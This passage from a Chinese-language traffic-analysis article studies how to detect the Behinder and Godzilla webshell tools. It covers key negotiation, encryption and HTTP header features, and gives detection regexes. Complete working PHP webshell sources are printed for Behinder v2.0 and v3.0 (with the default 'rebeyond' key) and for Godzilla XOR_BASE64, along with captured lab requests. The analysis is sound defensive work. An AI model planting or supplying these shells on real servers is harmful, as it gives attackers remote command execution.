{
    $key=substr(md5(uniqid(rand())),16);
    $_SESSION['k']=$key;
    print $key;
}
```
### 加密传输
1）客户端把待执行命令作为输入，利用刚刚得到的密钥，使用AES128算法或XOR运算进行加密，并发送至服务端

- 是否使用AES128，主要看上传了该webshell的服务端是否存在openssl拓展套件，若存在则进行AES加密，加密后再base64编码
- 若没有开启openssl的拓展，则进行XOR处理然后通过base64编码

2）服务端接受密文后进行AES或XOR运算解密，执行相应的命令<br />3）执行结果通过AES加密后返回给攻击者
### V2.0 php版 webshell 
```php
<?php
@error_reporting(0);
session_start();
if (isset($_GET['pass']))
{
    $key=substr(md5(uniqid(rand())),16);
    $_SESSION['k']=$key;
    print $key;
}
else
{
    $key=$_SESSION['k'];
    $post=file_get_contents("php://input");
// 没有开启 openssl 拓展套件
    if(!extension_loaded('openssl'))
    {
        $t="base64_"."decode";
        $post=$t($post."");

        for($i=0;$i<strlen($post);$i++)
        {
            $post[$i] = $post[$i]^$key[$i+1&15];
        }
    }
// 开启了 openssl 拓展套件
    else
    {
        $post=openssl_decrypt($post, "AES128", $key);
    }
    $arr=explode('|',$post);
    $func=$arr[0];
    $params=$arr[1];
    class C{public function __invoke($p) {eval($p."");}}
    @call_user_func(new C(),$params);
}
?>
```
通过观察最后几行代码可以看出，在解密后，会得到中间结果字符串assert|eval("phpinfo();")此数据是由冰蝎加载器发出的，已经定义好的，服务端利用explode函数将拆分为一个字符串数据，然后以可变函数方式调用索引为0的数组元素，参数为索引为1的数组元素，即为assert("eval("phpinfo;")")	
### 密钥协商
具体密钥协商的过程，会发送**两次GET请求**，通过在URL中pass参数下携带的随机数生成两个密钥，二者作用不同

- 第一次GET请求：将服务端产生的密钥写入session，session与会话绑定，为了区别不同的客户端
- 第二次GET请求：获取用户对向服务端传递语句加密的AES128加密key

**第一次GET请求包**
```http
GET /hackable/uploads/shell.php?pass=673 HTTP/1.1
Content-type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; WOW64; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; InfoPath.3)
Host: 192.168.66.136
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive
```
**第一次GET返回包**
```http
HTTP/1.1 200 OK
Date: Sat, 19 Nov 2022 09:34:36 GMT
Server: Apache/2.4.23 (Win32) OpenSSL/1.0.2j PHP/5.4.45
X-Powered-By: PHP/5.4.45
Set-Cookie: PHPSESSID=m0agat42tmo0i4srnda5ssfq94; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Content-Length: 16
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html
d725dbe21ca73b55
```
第一次请求服务端产生密钥d725dbe21ca73b55作用在于：<br />写入session，session和当前会话绑定，不同的客户端密钥是不同的，用于区分不同的客户端<br />**第二次GET请求包**
```http
GET /hackable/uploads/shell.php?pass=852 HTTP/1.1
Content-type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; WOW64; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; InfoPath.3)
Host: 192.168.66.136
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive
```
此处随机值pass发生变化，用户生成另一个密钥
```http
HTTP/1.1 200 OK
Date: Sat, 19 Nov 2022 09:34:36 GMT
Server: Apache/2.4.23 (Win32) OpenSSL/1.0.2j PHP/5.4.45
X-Powered-By: PHP/5.4.45
Set-Cookie: PHPSESSID=bv5lv0681hq09ggt8rfj1peio5; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Content-Length: 16
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html
03befc81cbefda94
```
此时返回的03befc81cbefda94便是接下来用于AES加密的密钥
### 加密传输
使用刚刚得到的AES密钥03befc81cbefda94加密POST请求报文的body向服务端发送要执行的命令<br />**V2.0流量特征**

- 可绕过特征：使用者可修改特殊构造的特征
- 固定特征：程序内部逻辑所规定，无法修改

**可绕过特征**

- **Accept字段**
```http
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
```
弱特征之一，不可单独进行判断，结合赋值其他特征判断<br />该Accept头贯穿冰蝎整个交互报文的过程，都不会发生变化

- **User-Agent字段**

弱特征之一，不可单独进行判断，结合赋值其他特征判断<br />冰蝎内置了一个UA库，位于Constants.java中
```http
Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/535.1 (KHTML, like Gecko) Chrome/14.0.835.163 Safari/535.1
Mozilla/5.0 (Windows NT 6.1; WOW64; rv:6.0) Gecko/20100101 Firefox/6.0
Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/534.50 (KHTML, like Gecko) Version/5.1 Safari/534.50
Opera/9.80 (Windows NT 6.1; U; zh-cn) Presto/2.9.168 Version/11.50
Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0; .NET CLR 2.0.50727; SLCC2; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; InfoPath.3; .NET4.0C; Tablet PC 2.0; .NET4.0E)
Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; WOW64; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; InfoPath.3)
Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0; GTB7.0)
Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1)
Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1)
Mozilla/5.0 (Windows; U; Windows NT 6.1; ) AppleWebKit/534.12 (KHTML, like Gecko) Maxthon/3.0 Safari/534.12
Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; InfoPath.3; .NET4.0C; .NET4.0E)
Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; InfoPath.3; .NET4.0C; .NET4.0E; SE 2.X MetaSr 1.0)
Mozilla/5.0 (Windows; U; Windows NT 6.1; en-US) AppleWebKit/534.3 (KHTML, like Gecko) Chrome/6.0.472.33 Safari/534.3 SE 2.X MetaSr 1.0
Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; InfoPath.3; .NET4.0C; .NET4.0E)
Mozilla/5.0 (Windows NT 6.1) AppleWebKit/535.1 (KHTML, like Gecko) Chrome/13.0.782.41 Safari/535.1 QQBrowser/6.9.11079.201
Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; InfoPath.3; .NET4.0C; .NET4.0E) QQBrowser/6.9.11079.201
Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; WOW64; Trident/5.0)
```
此处列出几个（ UA 较老也可作为其特征之一）<br />若发现历史流量中同一个源IP访问某个URL时，命中了以下列表中多个User-Agent，可基本确认为冰蝎特征

- **Connection字段**

Connection: Keep-Alive长连接，冰蝎通信默认使用长连接，但该字段是为了兼容HTTP 1.0所加的，其实加不加对于1.1是一致的，所以也属于弱特征<br />**固定特征**

- 与V1.0一致，在最初的GET请求中存在.php?pass=格式，用于向服务端传递随机数，动态协商生成密钥
```
\\.(php|jsp|asp|aspx)\\?(\\w){1,10}=\\d{2,3}  HTTP/1.1
```

- **传递的密钥**

加密所用密钥是长度为16的随机字符串，小写字母+数字组成，密钥传递阶段，密钥存在于Response Body中
```
^[a-fA-F0-9]{16}$
```
**POST 数据的解密**<br />由于AES的密钥会被直接传递回来，所以拿到这串密钥便可解密POST body中通过AES加密的数据：

- 先对传递的密文进行base64解码
- 再使用密钥进行AES解密

便可得到传递的数据<br />其中POST返回包的数据解密后存在的固定的格式：
```http
{"status":"success","msg":"xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx"}
```
由于该**固定格式与相对固定的长度**，冰蝎V3.0当中用超大数据填充的方式绕过
## 冰蝎3.0
由于V2.0动态协商的机制，使其流量多出了许多特征，而且可直接从报文中获取到协商出的AES加密密钥（**原因其实在于动态协商密钥算法弱，没有使用安全的动态密钥协商算法。如DH家族**）<br />所以在V3.0版本中取消了动态密钥协商，采用了**预共享密钥**，其密钥被写在了webshell的源码中<br />其密钥的生成逻辑是：md5("密钥")[0:16]；<br />若使用默认的密钥rebeyond则其md5值为E45E329FEB5D925BA3F549B17B4B3DDE取前16位就为：e45e329feb5d925b<br />这样就省去了开始的两个GET请求<br />webshell中得其余部分与V2.0中得相同
```php
<?php
@error_reporting(0);
session_start();
//该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond
$key="e45e329feb5d925b";
$_SESSION['k']=$key;
session_write_close();
$post=file_get_contents("php://input");
if(!extension_loaded('openssl'))
{
  $t="base64_"."decode";
  $post=$t($post."");

  for($i=0;$i<strlen($post);$i++)
    {
      $post[$i] = $post[$i]^$key[$i+1&15];
    }
}
else
{
  $post=openssl_decrypt($post, "AES128", $key);
}
$arr=explode('|',$post);
$func=$arr[0];
$params=$arr[1];
class C{public function __invoke($p) {eval($p."");}}
@call_user_func(new C(),$params);
?>
```
所以对于V3.0可以尝试使用默认预共享密钥rebeyond的md5值得前16位生成的加密密钥尝试对加密得POST得数据进行解密，解密成功即可检查其敏感的PHP函数，若更改了默认密码则无法解密<br />对于V3.0中若不使用默认密码，手工观测流量的特征较少，而且都为弱特征，以下特征仅作辅助参考，若以此特征对流量做过滤易造成对正常业务的影响

- User-Agent与2.0类似，但在2.0的基础上又多增加了几个UA头，总共有25个UA头
- Accept头存在固定值
```http
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
```
或
```http
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
```

- Accept-Language存在固定值
```http
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
```
或
```http
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
```

- Content-type存在固定值

对于php类，其固定值为：
```http
application/x-www-form-urlencoded
```

- referer存在一定规律

连接的两个包referer中URL后的文件名都是随机生成的，但文件名**是纯大写或者是纯小写**，可作为一个弱特征检测

- 包含Cache-Control: no-cache
## 冰蝎4.0
V4.0增加了多种算法，为了保障AES的安全性还增加了附加magic魔数的AES加密方式，简单从其流量特征，本人当前没有找到明显的识别方式，一些基本的流量特征也是从V3.0继承而来的：

- 依旧存在默认密钥，可尝试解密
- UA头
- Accept
- Content-Type
- Connection: Keep-Alive
- Referer
- 客户端 与 服务端建立连接时，连接所使用本地端口分布在 49700 左右，每建立一次新的连接，端口就依次增加

由于其可定制化大大加强，总归缺少有利的判断条件，只能多方面合起来进行判断<br />以下源码来自逆向V4.0.2版本（不保证确实如此），其中UA头缩减到了10个，而且Accept字段仅存在一个
```
Mozilla/5.0 (Macintosh; Intel Mac OS X 11_2_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:87.0) Gecko/20100101 Firefox/87.0"
Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36
Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36 Edg/99.0.1150.55
Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36
Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.125 Safari/537.36
Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.125 Safari/537.36
Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:79.0) Gecko/20100101 Firefox/79.0
Mozilla/5.0 (Windows NT 6.3; Trident/7.0; rv:11.0) like Gecko
```
<br />如抓包所示<br />
# 哥斯拉（Godzilla）
## 下载地址
[https://github.com/BeichenDream/Godzilla](https://github.com/BeichenDream/Godzilla)
## 流量特征
由于哥斯拉在处理 jsp 和 php 时加密方式存在差异，本文将从 php 版的 shell 展开，对其运行原理再做一下总结和阐述。首先，生成一个 php 静态 webshell，加密器选择 PHP_XOR_BASE64
### HTTP请求头特征
#### User-Agent
哥斯拉客户端使用 JAVA 语言编写，在默认的情况下，如果不修改 User-Agent，User-Agent 会类似于 Java/11.0.7（具体什么版本取决于 JDK 环境版本）。但是哥斯拉支持自定义 HTTP 头部，这个默认特征是可以很容易去除的
#### Accept
Accept 头为 text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8 对这个默认特征应该很熟悉了，之前冰蝎也出现过同样的 Accept。为什么会这么巧合出现两个工具都会出现这个特征呢，其实这个也是 JDK 引入的一个特征，并不是作者自定义的 Accept。同样的这个默认特征也可以通过自定义头部去除，只能作为默认情况下的辅助检测特征
### 请求体特征
#### PHP_XOR_BASE64
<br />以默认 shell 的密码和密钥为例，生成的文件如下：
```php
<?php
@session_start();
@set_time_limit(0);
@error_reporting(0);
function encode($D,$K){ //进行异或加解密的函数
    for($i=0;$i<strlen($D);$i++) {
        $c = $K[$i+1&15];
        $D[$i] = $D[$i]^$c;
    }
    return $D;
}
$pass='pass';
$payloadName='payload';
$key='3c6e0b8a9c15224a';
if (isset($_POST[$pass])){ //对上传代码做执行并得到结果
    $data=encode(base64_decode($_POST[$pass]),$key);
    if (isset($_SESSION[$payloadName])){
        $payload=encode($_SESSION[$payloadName],$key);
        if (strpos($payload,"getBasicsInfo")===false){
            $payload=encode($payload,$key);
        }
        eval($payload);
        echo substr(md5($pass.$key),0,16);
        echo base64_encode(encode(@run($data),$key));
        echo substr(md5($pass.$key),16);
    }else{
        if (strpos($data,"getBasicsInfo")!==false){
            $_SESSION[$payloadName]=encode($data,$key);
        }
    }
}
```
原始代码->base64编码->异或加密
#### 流量分析
首次连接时会有三个连续的请求<br /><br />**第一个数据包**
```http
POST /hackable/uploads/godzilla.php HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:84.0) Gecko/20100101 Firefox/84.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Host: 127.0.0.1:8081
Content-type: application/x-www-form-urlencoded
Content-Length: 52541
Connection: close

pass=R0YEQgNVBE0GQ0YPU0YTUhoeTAtv............URVEaQgBDWTVrRG47
```
根据加密代码的分析，对pass进行解密后为各种功能的脚本<br /><br />可以发现该数据包并没有回包，可以作为流量识别的其中一个重要特征<br />**第二个数据包**<br /><br />根据代码分析对会包的字符串进行解密（分析过程比较复杂，敬请期待）得到OK<br />说明该请求一条测试请求，证明shell连接成功<br />**第三个数据包**<br />该请求的作用是获取目标的环境信息：<br /><br />解密得到原始代码 methodName=Z2V0QmFzaWNzSW5mbw==，即 methodName=getBasicsInfo。此操作调用 payload 中的 getBasicsInfo 方法获取目标环境信息向客户端返回。显然，这个过程又是一个固定特征<br />至此，成功挖掘到哥斯拉客户端与 shell 建连初期的三个固定行为特征，且顺序出现在同一个 TCP 连接中。可以总结为：

- 发送一段固定代码（payload），http 响应为空
- 发送一段固定代码（test），执行结果为固定内容
- 发送一段固定代码（getBacisInfo）
